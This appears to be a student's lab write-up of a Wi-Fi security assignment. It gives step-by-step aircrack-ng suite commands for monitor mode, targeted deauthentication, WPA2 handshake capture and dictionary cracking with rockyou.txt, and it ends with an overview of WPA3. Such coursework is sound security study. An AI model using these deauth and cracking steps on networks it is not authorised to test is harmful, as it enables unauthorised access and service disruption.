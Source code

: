 ## 1. Learn the basic working of Wi-Fi and its types with various types of attacks on it.

To transmit and receive data wirelessly, Wi-Fi uses a wireless network adapter on each device, which converts the data into radio waves and sends them to the Wi-Fi router. The router then receives these radio waves and converts them back into data that can be sent to the internet or other devices on the network. Wi-Fi operates on different frequencies and channels, which determine the speed and range of the wireless connection.

- **Rogue access points** - attackers can set up a fake access point that appears to be legitimate, tricking users into connecting to it and giving away their sensitive information.

- **Man-in-the-middle attacks** - attackers intercept and alter data as it is transmitted between devices, allowing them to steal sensitive information.

- **Denial-of-service attacks** - attackers flood the Wi-Fi network with traffic, causing it to crash or become unusable.

- **Eavesdropping** - attackers can intercept and read data that is being transmitted between devices over the Wi-Fi network.

- **Password cracking** - attackers can use specialized software to crack the Wi-Fi network's password, giving them access to the network and any sensitive information transmitted over it.

----------------------

## 2. Perform Wi-Fi fingerprinting using Wigile, Inssider, and Kismet.

#### Kismet -

- Put Your Wireless Card in Monitor Mode by using the command `sudo airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230551170-37f0d414-dd18-4c86-b728-5cfbacc2f2d3.png)

- Launch Kismet by using the command `kismet -c wlanomon`

![image](https://user-images.githubusercontent.com/67383098/230552556-1d7bd6a6-bc11-4152-9989-001327bbfb93.png)

Go to **localhost:2501** to view kismet page. Create a account with any password, in this case I created **username:kismet** & **password:kismet**

![image](https://user-images.githubusercontent.com/67383098/230552480-bdc61d8a-b846-4b13-a472-d352e2c0d806.png)

Here we can see the **SSID** & the type of encryption being used.

![image](https://user-images.githubusercontent.com/67383098/230552332-32a6be07-3554-4bff-9661-17fe92d3b727.png)

--------------------------------------------

## 3. Create an Access point with any Wi-Fi encryption standard and start testing the security of
that connection using any Wi-Fi security testing tools, which should include (Aircrack-Ng,
Wifite, not limited). Try to capture the 4-way handshake using these methods.

Start monitor mode - `airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230554024-50eefd46-08d0-4e50-a525-dd92dec5881a.png)


Capture wireless traffice using - `airodump-ng wlan0`

![image](https://user-images.githubusercontent.com/67383098/230555155-dc581e48-5db2-4a9d-b319-0dd5f2197e66.png)

Focus Airodump-Ng on One AP on One Channel - `airodump-ng --bssid EA:B0:24:9F:4A:50  -c 5 --write WPAcrack wlan0`

It will capture and store all the files including .pcap file to the present directory which can later be used for bruteforcing  the password.

![image](https://user-images.githubusercontent.com/67383098/230556046-cc586b48-b820-4505-9169-646d9a28cff4.png)

Aireplay-Ng Deauth - `aireplay-ng --deauth 100 -a EA:B0:24:9F:4A:50 wlan0`

![image](https://user-images.githubusercontent.com/67383098/230556612-09f1a09a-3aa7-49f5-ad7f-7ad0435c226a.png)

Below is the captured **4 way handshake** during the deauth process

![image](https://user-images.githubusercontent.com/67383098/230556884-b437c7ae-6f60-4174-be73-a34409ed85ec.png)



----------------------------

## 4. After capturing the required files for testing, use dictionary generation and password
cracking tools to crack the Wi-Fi password.
a. You must use an existing word file to crack the password.
b. Also you have to create your dictionary file for cracking the passwords.
c. Keep 3 different types of passwords for your Wi-Fi to test it. Simple, medium, and
complex passwords can be used for testing. Simple can be a dictionary word,
medium can be of dictionary word with some numbers, and complex can be
generated from any password generator online.

Password is `c6dp6m2k`

Now first we try to crack a hard password which was set as password for the  Wifi AP named *realme 10 pro 5g*.

Command - `aircrack-ng WPAcrack-03.cap  -w /usr/share/wordlists/rockyou.txt`

![image](https://user-images.githubusercontent.com/67383098/230557921-fe84d8c4-95d1-48c9-b34d-eb4152d05847.png)

When we use a weak password, we can crack it in less time using aircrack-ng. (REPEAT ALL THE PROCESS ABOVE AND CAPTURE THE TRAFFIC)

aircrack-ng testt.cap -w /usr/share/wordlists/rockyou.txt

![image](https://user-images.githubusercontent.com/67383098/230582697-1c10599d-ef77-4013-b14d-f184c284929d.png)

As seen above , we have our password for the wifi AP which has WPA2 encryption which is **raymond23**

--------------------------

## 5. Use Rouge AP (WifiPhisher) to create an Evil twin, perform a basic phishing attack using this
rouge AP, and document the difference between the two attacks you have performed.

------------------------------

## 6. Learn the protocol level working of WPA3 and how it differs from WPA2.

WPA3 (Wi-Fi Protected Access III) is the latest security protocol for Wi-Fi networks, introduced by the Wi-Fi Alliance in 2018. It is designed to improve the security and privacy of Wi-Fi networks, addressing some of the vulnerabilities and weaknesses of its predecessor, WPA2. It uses a stronger authentication method, stronger encryption, and forward secrecy. It also includes a new feature to improve the security of public Wi-Fi networks. These improvements make it more difficult for attackers to gain unauthorized access to Wi-Fi networks and intercept data transmitted over them, providing a higher level of security for users.

Authentication: WPA3 uses a new authentication method called Simultaneous Authentication of Equals (SAE), also known as Dragonfly. This replaces the pre-shared key (PSK) method used in WPA2, which is vulnerable to brute force attacks. SAE is a stronger form of password-based authentication, which uses a cryptographic algorithm to protect against these types of attacks.

Encryption: WPA3 uses 256-bit Galois/Counter Mode Protocol (GCMP-256) encryption, which is more secure than the Advanced Encryption Standard (AES) encryption used in WPA2. GCMP-256 provides stronger protection against unauthorized access and data interception, as well as reducing the risk of side-channel attacks.

Forward Secrecy: WPA3 also includes support for Forward Secrecy, which generates a unique key for each session between a client and the access point. This makes it more difficult for an attacker to access past communications even if they are able to obtain the key used for the current session.

Public Wi-Fi Security: WPA3 includes a new feature called Opportunistic Wireless Encryption (OWE), which is designed to improve the security of public Wi-Fi networks. OWE encrypts data exchanged between a user and a Wi-Fi access point, even if the user doesn't have a password for the network. This helps protect against unauthorized access and data interception on public Wi-Fi networks.



Reference Links: [Not Limited]
1. https://github.com/wifiphisher/wifiphisher
2. https://web.stanford.edu/class/ee26n/Assignments/Assignment7.html
3. https://www.wifi-professionals.com/2019/01/4-way-handshake
4. https://nooblinux.com/crack-wpa-wpa2-wifi-passwords-using-aircrack-ng-kali-linux/
5. https://en.wikipedia.org/wiki/IEEE_802.11

